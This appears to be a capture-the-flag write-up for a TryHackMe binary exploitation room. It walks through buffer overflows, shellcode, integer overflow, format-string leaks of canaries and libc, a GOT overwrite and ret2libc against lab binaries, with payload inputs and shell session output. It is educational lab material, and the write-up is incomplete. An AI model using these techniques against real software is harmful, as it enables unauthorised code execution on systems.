

## Challenge Name: THM_pwn101


Challenge Description:
Learn pwn

    Buffer overflow
    Modify variable's value
    Return to win
    Return to shellcode
    Integer Overflow
    Format string exploit
    Bypassing mitigations
    GOT overwrite
    Return to PLT
    Playing with ROP


## Recon
Using `rustscan`  to scan port on target machine. Those open ports are 80.




## Flag1
  Generate multiple A to overflow input and it give a shell using `python -c 'print("A"*200)'` to do it and send payload to server on port `9001`

  ```bash
  nc 10.10.112.19 9001
         ┌┬┐┬─┐┬ ┬┬ ┬┌─┐┌─┐┬┌─┌┬┐┌─┐
          │ ├┬┘└┬┘├─┤├─┤│  ├┴┐│││├┤
          ┴ ┴└─ ┴ ┴ ┴┴ ┴└─┘┴ ┴┴ ┴└─┘
                   pwn 101

  Hello!, I am going to shopping.
  My mom told me to buy some ingredients.
  Ummm.. But I have low memory capacity, So I forgot most of them.
  Anyway, she is preparing Briyani for lunch, Can you help me to buy those items :D

  Type the required ingredients to make briyani:
  AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
  Thanks, Here's a small gift for you <3

  id
  uid=1002(pwn101) gid=1002(pwn101) groups=1002(pwn101)
  ls
  flag.txt
  pwn101
  pwn101.c
  cat flag.txt
  THM{7h4t's_4n_3zy_oveRflowwwww}
  ```
  And we get the first flag `THM{7h4t's_4n_3zy_oveRflowwwww}`

## Flag2
Load the program to `gdb` and `disassemble main` to get read logic of program.

```asm
  0x000055555540093c <+62>:    call   0x555555400730 <printf@plt>
  0x0000555555400941 <+67>:    lea    rax,[rbp-0x70]
  0x0000555555400945 <+71>:    mov    rsi,rax
  0x0000555555400948 <+74>:    lea    rdi,[rip+0x217]        # 0x555555400b66
  0x000055555540094f <+81>:    mov    eax,0x0
  0x0000555555400954 <+86>:    call   0x555555400750 <__isoc99_scanf@plt>
  0x0000555555400959 <+91>:    cmp    DWORD PTR [rbp-0x4],0xc0ff33
  0x0000555555400960 <+98>:    jne    0x555555400992 <main+148>
  0x0000555555400962 <+100>:   cmp    DWORD PTR [rbp-0x8],0xc0d3
  0x0000555555400969 <+107>:   jne    0x555555400992 <main+148>
  0x000055555540096b <+109>:   mov    edx,DWORD PTR [rbp-0x8]
  0x000055555540096e <+112>:   mov    eax,DWORD PTR [rbp-0x4]
  0x0000555555400971 <+115>:   mov    esi,eax
  0x0000555555400973 <+117>:   lea    rdi,[rip+0x1ef]        # 0x555555400b69
  0x000055555540097a <+124>:   mov    eax,0x0
  0x000055555540097f <+129>:   call   0x555555400730 <printf@plt>
  0x0000555555400984 <+134>:   lea    rdi,[rip+0x1f4]        # 0x555555400b7f
  0x000055555540098b <+141>:   call   0x555555400720 <system@plt>
```

Above is main logic help us pass this chall code above do is load our in put to `rbp-0x70` which buffer we can control and we see `<system@plt>` system call that we can get a shell but tp get there we have pass codition of `cmp    DWORD PTR [rbp-0x8],0xc0d3 and DWORD PTR [rbp-0x8],0xc0d3` compare value in stack to get to system call. Now thing we  should do is manipulate rbp, remember stack go from high address to low address so our payload will go from `[rbp-0x70] to [rbp-0x00]`  mean it [rbp-0x8] is in front of [rbp-0x4]
We using [exploit](CTF_exploit/THM_pwn101/pwn102.py) and get a flag:
```bash
python pwn102.py
[+] Opening connection to 10.10.83.22 on port 9002: Done
[*] Switching to interactive mode
Yes, I need c0ff33 to c0d3
$ id
uid=1003(pwn102) gid=1003(pwn102) groups=1003(pwn102)
$ cat flag.txt
THM{y3s_1_n33D_C0ff33_to_C0d3_<3}
$

```
## Flag3
Use gdb to reverse engineer `general` func using `disassemble general`  and remember `scanf` with option `%s` will cause some problem with our payload , if we read the assembly code we now buffer is 32 so we need more 8 byte to overwrite rbp and  6 byte to write to rip. This only to find offset not payload and after that we find `offset = 40`


We find admin funtion let see what it does
```bash
gef➤  disassemble admins_only
Dump of assembler code for function admins_only:
   0x0000000000401554 <+0>:     push   rbp
   0x0000000000401555 <+1>:     mov    rbp,rsp
   0x0000000000401558 <+4>:     sub    rsp,0x10
   0x000000000040155c <+8>:     lea    rax,[rip+0x1d04]        # 0x403267
   0x0000000000401563 <+15>:    mov    rdi,rax
   0x0000000000401566 <+18>:    call   0x401040 <puts@plt>
   0x000000000040156b <+23>:    lea    rax,[rip+0x1d0a]        # 0x40327c
   0x0000000000401572 <+30>:    mov    rdi,rax
   0x0000000000401575 <+33>:    call   0x401040 <puts@plt>
   0x000000000040157a <+38>:    lea    rax,[rip+0x1d0e]        # 0x40328f
   0x0000000000401581 <+45>:    mov    rdi,rax
   0x0000000000401584 <+48>:    call   0x401050 <system@plt>
   0x0000000000401589 <+53>:    nop
   0x000000000040158a <+54>:    leave
   0x000000000040158b <+55>:    ret
End of assembler dump.

```
We see it have system call this is the way to done it our return address will be system func address. We are dealing with server that have issue [MOVAPS issue](https://ypl.coffee/r0pbaby/#section5) make us can return directly to system call despite that we have to go through another return gadget in our program.
```bash
objdump -d ./pwn103-1644300337872.pwn103 | grep ret
  401016:       c3                      ret
  4010e0:       c3                      ret
  401110:       c3                      ret

```
We using [exploit](CTF_exploit/THM_pwn101/pwn103.py)  and get the flag
```bash
python pwn103.py
[+] Opening connection to 10.10.83.22 on port 9003: Done
[*] '/home/kali/pwn103-1644300337872.pwn103'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
[*] Switching to interactive mode
Try harder!!! 💪

👮  Admins only:

Welcome admin 😄
$ ls
flag.txt
pwn103
pwn103.c
$ cat flag.txt
THM{w3lC0m3_4Dm1N}
$

```

## Flag4
Like usually step we find offset is 88 and the what to attack is return direct to shellcode very basic and we use  [exploit](CTF_exploit/THM_pwn101/pwn104.py)
```bash
python pwn104.py
[+] Opening connection to 10.10.113.69 on port 9004: Done
[*] '/home/kali/pwn104-1644300377109.pwn104'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x400000)
    Stack:      Executable
    RWX:        Has RWX segments
    Stripped:   No
[*] consumed line: 140728156855456
[*] Switching to interactive mode
$ id
uid=1005(pwn104) gid=1005(pwn104) groups=1005(pwn104)
$ ls
flag.txt
pwn104
pwn104.c
$ cat flag.txt
THM{0h_n0o0o0o_h0w_Y0u_Won??}
$
```

## Flag5
We use integer overflow with this challenge is int 32 with max value went perform addtion is `2147483647` so first input will be `2147483647` and second input is `1`
 ``` bash
 nc 10.10.113.69 9005
        ┌┬┐┬─┐┬ ┬┬ ┬┌─┐┌─┐┬┌─┌┬┐┌─┐
         │ ├┬┘└┬┘├─┤├─┤│  ├┴┐│││├┤
         ┴ ┴└─ ┴ ┴ ┴┴ ┴└─┘┴ ┴┴ ┴└─┘
                  pwn 105


 -------=[ BAD INTEGERS ]=-------
 |-< Enter two numbers to add >-|

 ]>> 2147483647
 ]>> 1

 [*] C: -2147483648
 [*] Popped Shell
 [*] Switching to interactive mode
 ls
 flag.txt
 pwn105
 pwn105.c
 cat flag.txt
 THM{VerY_b4D_1n73G3rsss}
 ```
## Flag6
Use can read [doc](https://owasp.org/www-community/attacks/Format_string_attack) about how to fully exploit this vul but in this chall the hardest part is brute force stack data (flag from 6 to 11 pointer)and uncode it by unhex and reverse hex and get the flag [exploit](CTF_exploit/THM_pwn101/pwn106.py)
## Flag7
We disassemble main and reverse engineer it we know program read 2 time and have prinf(buf) Format_string_attack  and the way it exacute is
```asm
read(0, rbp-0x40, 0x14) # read 0x14(20) bytes to buffer
printf(buffer)
read(0, rbp-0x20, 0x200)# # read 0x200(512) bytes to buffer

0x000055555540099a <+8>:   mov    rax,QWORD PTR fs:0x28
0x00005555554009a3 <+17>:  mov    QWORD PTR [rbp-0x8],rax
expose canary address is  [rbp-0x8]
```
we will use prinf(buf) to expose libc and canary  address to craft exploit
We have trick because offset dont change so we can use formula below to get the offset in server.
```
dynamic_libc - static_libc = base address(server)
base address(server) + static_func = dynamic_func

```
So let find offset canary first in `r2` break at prinf(buf) some common command [radare2_cheatsheet](https://gist.github.com/williballenthin/6857590dab3e2a6559d7)

```
r2 ./pwm107
aaa
alf
pdf @ main #list assembly of main
---
 0x00000a36      e805fdffff     call sym.imp.printf         ; int printf(const char*format)
---
ood # run
db  0x00000a36 # break
```

 Let see our stack
 ```bash
 pxr @ rsp
0x7ffc0dff6e30 0x4141414141414141   AAAAAAAA @ rsp ascii ('A')
0x7ffc0dff6e38 0x4141414141414141   AAAAAAAA ascii ('A')
0x7ffc0dff6e40 0x0000000041414141   AAAA.... 1094795585 ascii ('A')
0x7ffc0dff6e48 ..[ null bytes ]..   00000000
0x7ffc0dff6e58 0x00007fe25dc1c030   0..].... /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2 library R X 'push rbp' 'ld-linux-x86-64.so.2'
0x7ffc0dff6e60 ..[ null bytes ]..   00000000
0x7ffc0dff6e68 0xf080313bf0445500   .UD.;1.. --------> canary address [rbp-0x8]
0x7ffc0dff6e70 0x0000000000000001   ........ @ rbp 1
0x7ffc0dff6e78 0x00007fe25da12d68   h-.]....
0x7ffc0dff6e80 0x00007ffc0dff6f70   po...... [stack] stack R W 0x7ffc0dff6f78
0x7ffc0dff6e88 0x0000559479400992   ..@y.U.. /home/kali/pwn107-1644307530397.pwn107 .text main,main main program R X 'push rbp' 'pwn107-1644307530397.pwn107'

 ```
 And we see from first input of prinf in `0x7ffc0dff6e30` to canary took 7 line mean 7 pointer away in input buffer, so we have `canary = input+7`  the same with our static libc is 5 so address of it is `static_libc = input+4'.

 Let leak address of input
 ```bash
 python pwn107.py REMOTE 10.10.247.157 9007
 [*] '/home/kali/pwn107-1644307530397.pwn107'
     Arch:       amd64-64-little
     RELRO:      Full RELRO
     Stack:      Canary found
     NX:         NX enabled
     PIE:        PIE enabled
     Stripped:   No
 [+] Opening connection to 10.10.247.157 on port 9007: Done
 /usr/local/lib/python3.13/dist-packages/pwnlib/tubes/tube.py:932: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
   res = self.recvuntil(delim, timeout=timeout)
 [*] Switching to interactive mode
  Thanks, Happy hacking!!
 Your current streak: AAA_0x2d_0x2d_0x702434255f414141 #payload +=b"AAA_%4$p_%5$p_%6$p"
 \x92\x1e\x7f

 [Few days latter.... a notification pops up]

 Hi pwner 👾, keep hacking👩💻 - We miss you!😢
 $
```
So input address is in `%6$p` so that we now address of canary and static_libc is `%13$p` and `%10$p`(this could change to or 10 in remote server)
Using exploit: [exploit](CTF_exploit/THM_pwn101/pwn107.py)

```bash
python pwn107.py REMOTE 10.10.123.26 9007
[*] '/home/kali/pwn107.pwn107'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    Stripped:   No
[+] Opening connection to 10.10.123.26 on port 9007: Done
[*] Loaded 14 cached gadgets for './pwn107.pwn107'
[*] Switching to interactive mode


[Few days latter.... a notification pops up]

Hi pwner 👾, keep hacking👩💻 - We miss you!😢
This your last streak back, don't do this mistake again
$ id
uid=1008(pwn107) gid=1008(pwn107) groups=1008(pwn107)
$ cat flag.txt
THM{whY_i_us3d_pr1ntF()_w1thoUt_fmting??}
$

```


## Flag8
reverse engineer main we have
```c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <stdint.h>

int setup(void);
int banner(void);

int main(void) {
    /* stack protector (canary) loaded from fs:0x28 and stored at [rbp-0x8] */
    uint64_t saved_canary = *(uint64_t *)(/* fs:0x28 */ 0); /* conceptual */

    setup();
    banner();

    puts("...");   /* string at 0x402177 */
    puts("...");   /* string at 0x402198 */
    printf("..."); /* string at 0x4021c5 */

    /* Stack frame reserve: sub rsp, 0x90
       There are two buffers laid out like this:
         rbp-0x90  ..  rbp-0x70   == 0x20 bytes (32)   -> buffer1
         rbp-0x70  ..  rbp-0x08   == 0x68 bytes (104)  -> buffer2
       (rbp-0x8 holds the saved canary) */
    char buf1[0x20];     /* 32 bytes */
    /* read from stdin (fd=0), length = 0x12 (18 bytes) */
    read(0, buf1, 0x12);

    printf("..."); /* string at 0x4021d5 */

    char buf2[0x68];     /* 104 bytes */
    /* read from stdin (fd=0), length = 0x64 (100 bytes) */
    read(0, buf2, 0x64);

    puts("...");     /* string at 0x4021e6 */

    /* Several prints follow. Pay attention to the argument registers used in asm:
       - At one point the code does: mov rsi, buf1; mov rdi, <static fmt>; call printf
         -> safe: printf(static_fmt, buf1)
       - Later the code does: mov rdi, buf2; call printf
         -> DANGEROUS: printf(buf2) — the user input is used as the format string. */
    printf("<static format>", buf1);  /* prints something using buf1 as an argument */
    printf("<static format2>");       /* prints fixed message */
    printf(buf2);                    /* <-- format-string vulnerability if buf2 contains % specifiers */

    puts("..."); /* 0x40221f */
    puts("..."); /* 0x402268 */

    /* stack protector check */
    if (saved_canary != *(uint64_t *)(/* fs:0x28 */ 0))
        __stack_chk_fail();

    return 0;
}

```


```bash
nc 10.10.17.26 9008
       ┌┬┐┬─┐┬ ┬┬ ┬┌─┐┌─┐┬┌─┌┬┐┌─┐
        │ ├┬┘└┬┘├─┤├─┤│  ├┴┐│││├┤
        ┴ ┴└─ ┴ ┴ ┴┴ ┴└─┘┴ ┴┴ ┴└─┘
                 pwn 108

      THM University 📚
👨🎓 Student login portal 👩🎓

=[Your name]: aaa
=[Your Reg No]: AAAA.%lX.%lX.%lX.%lX.%lX.%lX.%lX.%lX.%lX.%lX.%lX.%lX.%lX.%lX.%lX.%lX.%lX

=[ STUDENT PROFILE ]=
Name         : aaa
Register no  : AAAA.7FFCDDECBD30.0.0.F.F.A616161.0.0.0.586C252E41414141.586C252E586C252E.586C252E586C252E.586C252E586C252E.586C252E586C252E.586C252E586C252E.586C252E586C252E.586C252E586C252E
@Institue     : THM
Branch       : B.E (Binary Exploitation)
```


We see input is at %10$p . Control prinf(buf) to  overwrite address puts() to the holiday() in got . How to write it is in  [exploit](CTF_exploit/THM_pwn101/pwn108.py)

## Flag9

```asm
int main(int argc, char **argv, char **envp);
; var char *s @ stack - 0x28
0x004011f2      endbr64
0x004011f6      push    rbp
0x004011f7      mov     rbp, rsp
0x004011fa      sub     rsp, 0x20
0x004011fe      mov     eax, 0
0x00401203      call    setup      ; sym.setup
0x00401208      mov     eax, 0
0x0040120d      call    banner     ; sym.banner
0x00401212      lea     rdi, [str.This_time_no] ; 0x402120 ; const char *s
0x00401219      call    section..plt.sec ; sym.imp.puts ; int puts(const char *s)
0x0040121e      lea     rax, [s]
0x00401222      mov     rdi, rax   ; char *s
0x00401225      mov     eax, 0
0x0040122a      call    gets       ; sym.imp.gets ; char *gets(char *s)
0x0040122f      nop
0x00401230      leave
0x00401231      ret
0x00401232      nop     word cs:[rax + rax]
0x0040123c      nop     dword [rax]
```

We see offset to stack is 0x28 and gets()  read all input is place to exploit

### Ret2libc

#### Step 1: Leak version of libc version. Get address GOT of libc using PLT using buffer overflow.
```bash
leaked puts  address: 0x7f7e3c494420
leaked gets  address: 0x7f7e3c493970
leaked setvbuf  address: 0x7f7e3c494ce0

```

Usig it to find libc version on [libc_check_link](https://libc.blukat.me/)


 #### Step 2: Using ROP to ret2libc
 Using [exploit](CTF_exploit/THM_pwn101/pwn109.py) and read it to know how to controll the address

## Flag10
